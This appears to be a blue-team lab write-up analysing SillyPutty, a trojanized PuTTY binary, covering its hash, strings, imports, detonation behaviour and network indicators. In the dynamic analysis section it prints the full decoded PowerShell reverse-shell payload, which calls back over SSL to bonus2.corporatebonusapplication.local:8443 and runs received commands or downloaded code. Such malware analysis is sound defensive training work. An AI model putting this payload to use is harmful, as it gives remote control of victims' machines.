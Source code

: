 ```yaml
---
{"dg-publish":true,"permalink":"/cards/blue-team/malware-analysis/silly-putty-exe/","tags":["specimen"]}
---
```


[[map-of-contents/malware\|malware]] 
## Static Analysis 
---
### Basic Static Analysis
---
#### What is the SHA256 hash of the sample?
---
```
0c82e654c09c8fd9fdf4899718efa37670974c9eec5a8fc18a167f93cea6ee83 *putty.exe
```
#### What architecture is this binary?
---
Putty.exe have a 32-bit architecture.
#### Are there any results from submitting the SHA256 hash to VirusTotal?
---
VirusTotal flag putty.exe as malicious with 60/73 flags!
#### Describe the results of pulling the strings from this binary. Record and describe any strings that are potentially interesting. Can any interesting information be extracted from the strings?
---
The most notable strings found is:

![SillyPutty.exe.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe.png)

Registry key manipulation.

As well as:

![SillyPutty.exe-1.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe-1.png)

TCP Socket communications
#### Describe the results of inspecting the IAT for this binary. Are there any imports worth noting?
---

![SillyPutty.exe-2.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe-2.png)

Most notable is **WriteFile**, **ShellExecuteA**, **Anti-Debugging** and **Registry Key Manipulation**
#### Is it likely that this binary is packed?
---
No, as the size of raw data is much larger than the virtual size:

![SillyPutty.exe-3.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe-3.png)

### Basic Dynamic Analysis
---
#### Describe initial detonation. Are there any notable occurrences at first detonation? Without internet simulation? With internet simulation?
---
Without Internet Simulation, it opens up the PuTTY configuration but with Internet Simulation it does the same it opens up PowerShell for both.
#### From the host-based indicators perspective, what is the main payload that is initiated at detonation? What tool can you use to identify this?
---
Using `procmon` and process file tree I found a powershell open up with the command in base64.

The decoded is into gunzip file and after removing some paramer such as `-hidden` command:

![SillyPutty.exe-4.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe-4.png)

Using `cyberchef` and clicking the magic wand:


```PowerShell
function Get-Webclient 
{
    $wc = New-Object -TypeName Net.WebClient
    $wc.UseDefaultCredentials = $true
    $wc.Proxy.Credentials = $wc.Credentials
    $wc
}
function powerfun 
{ 
    Param( 
    [String]$Command,
    [String]$Sslcon,
    [String]$Download
    ) 
    Process {
    $modules = @()  
    if ($Command -eq "bind")
    {
        $listener = [System.Net.Sockets.TcpListener]8443
        $listener.start()    
        $client = $listener.AcceptTcpClient()
    } 
    if ($Command -eq "reverse")
    {
        $client = New-Object System.Net.Sockets.TCPClient("bonus2.corporatebonusapplication.local",8443)
    }

    $stream = $client.GetStream()

    if ($Sslcon -eq "true") 
    {
        $sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
        $sslStream.AuthenticateAsClient("bonus2.corporatebonusapplication.local") 
        $stream = $sslStream 
    }

    [byte[]]$bytes = 0..20000|%{0}
    $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
    $stream.Write($sendbytes,0,$sendbytes.Length)

    if ($Download -eq "true")
    {
        $sendbytes = ([text.encoding]::ASCII).GetBytes("[+] Loading modules.`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)
        ForEach ($module in $modules)
        {
            (Get-Webclient).DownloadString($module)|Invoke-Expression
        }
    }

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
    $stream.Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )

        $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()  
    }
    $client.Close()
    $listener.Stop()
    }
}
powerfun -Command reverse -Sslcon true
```
#### What is the DNS record that is queried at detonation?
---
bonus2.corporatebonusapplication.local
#### What is the callback port number at detonation?
---
Port: 8443.
#### What is the callback protocol at detonation?
---
Based on the WireShark Output it is SSL/TLS
#### How can you use host-based telemetry to identify the DNS record, port, and protocol?
---
Using `procmon` with filter for `OPERATION: TCP`.

#### Attempt to get the binary to initiate a shell on the localhost. Does a shell spawn? What is needed for a shell to spawn?
---

![SillyPutty.exe-5.png](/img/user/cards/blue-team/malware-analysis/images/SillyPutty.exe-5.png)

A server using netcat since in the code `ssl` was applied in netcat we simply add `--ssl`

## Conclusion
---

